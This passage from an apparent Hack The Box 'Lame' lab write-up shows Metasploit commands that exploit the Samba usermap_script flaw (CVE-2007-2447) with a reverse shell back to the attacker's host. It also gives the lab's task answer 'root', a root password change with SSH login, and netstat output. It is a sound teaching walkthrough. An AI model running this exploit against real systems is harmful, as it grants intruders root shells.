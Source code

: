 Exploit the samba vulnerability:
```text
msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set PAYLOAD payload/cmd/unix/reverse
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.50
LHOST => 10.10.14.50
msf6 exploit(multi/samba/usermap_script) > exploit
```

Get reverse shell with no prompt.

> Task 6: Exploiting CVE-2007-2447 returns a shell as which user?

> Answer: root

Now we can collect both user flag and root flag with this user.

## Additional tasks

Change password of root user and create a SSH session. The ssh server is very old and use DSA HostKeyAlgorithm, so we need to add option to use DSA key.
```bash
ssh -oHostKeyAlgorithms=+ssh-dss root@10.10.10.3
```

Check open ports in the system:
```bash
netstat -tnlp
```

Results:
```text
root@lame:~# netstat -tnlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:512             0.0.0.0:*               LISTEN      5446/xinetd
tcp        0      0 0.0.0.0:513             0.0.0.0:*               LISTEN      5446/xinetd
tcp        0      0 0.0.0.0:2049            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:514             0.0.0.0:*               LISTEN      5446/xinetd
tcp        0      0 0.0.0.0:40867           0.0.0.0:*               LISTEN      5345/rpc.mountd
tcp        0      0 0.0.0.0:56296           0.0.0.0:*               LISTEN      5623/rmiregistry
tcp        0      0 0.0.0.0:8009            0.0.0.0:*               LISTEN      5582/jsvc
tcp        0      0 0.0.0.0:6697            0.0.0.0:*               LISTEN      5644/unrealircd
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      5169/mysqld
tcp        0      0 0.0.0.0:1099            0.0.0.0:*               LISTEN      5623/rmiregistry
tcp        0      0 0.0.0.0:6667            0.0.0.0:*               LISTEN      5644/unrealircd
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      5423/smbd
tcp        0      0 0.0.0.0:5900            0.0.0.0:*               LISTEN      5643/Xtightvnc
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      4624/portmap
tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      5643/Xtightvnc
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      5602/apache2
tcp        0      0 0.0.0.0:8787            0.0.0.0:*               LISTEN      5627/ruby
tcp        0      0 0.0.0.0:8180            0.0.0.0:*               LISTEN      5582/jsvc
tcp        0      0 0.0.0.0:1524            0.0.0.0:*               LISTEN      5446/xinetd
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      5446/xinetd
tcp        0      0 10.10.10.3:53           0.0.0.0:*               LISTEN      5022/named
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN      5022/named
tcp        0      0 0.0.0.0:56694           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      5446/xinetd
tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN      5250/postgres
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      5413/master
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      5022/named
tcp        0      0 0.0.0.0:49083           0.0.0.0:*               LISTEN      4642/rpc.statd
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      5423/smbd
tcp6       0      0 :::2121                 :::*                    LISTEN      5520/proftpd: (acce
```